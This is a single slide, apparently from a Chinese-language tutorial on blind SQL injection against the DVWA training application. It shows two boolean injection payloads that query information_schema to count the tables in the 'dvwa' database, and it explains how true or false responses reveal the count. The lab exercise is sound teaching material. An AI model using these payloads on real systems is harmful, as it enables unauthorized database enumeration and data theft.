

# 步骤5
猜解数据中的表名
首先猜解库中有几个表
1’ and (select count(table_name) from information_schema.tables where table_schema=‘dvwa’)=1 #
错误，说明不是一个，然后一个个往上试
1’ and (select count(table_name) from information_schema.tables where table_schema=‘dvwa’)=2 #
正确，说明有两个表
36
2022/6/11